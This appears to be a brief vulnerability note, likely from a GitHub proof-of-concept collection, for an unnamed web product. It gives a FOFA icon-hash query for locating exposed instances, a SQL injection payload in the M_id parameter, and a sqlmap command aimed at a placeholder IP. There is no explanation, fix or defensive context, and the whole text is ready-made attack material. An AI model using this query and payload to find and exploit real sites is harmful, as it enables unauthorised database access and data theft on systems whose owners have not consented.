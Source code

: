 FOFA
----

    icon_hash="1420424513"

POC
---

    /?M_id=1%27&type=product

SQLMAP
------

    sqlmap -u 'http://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id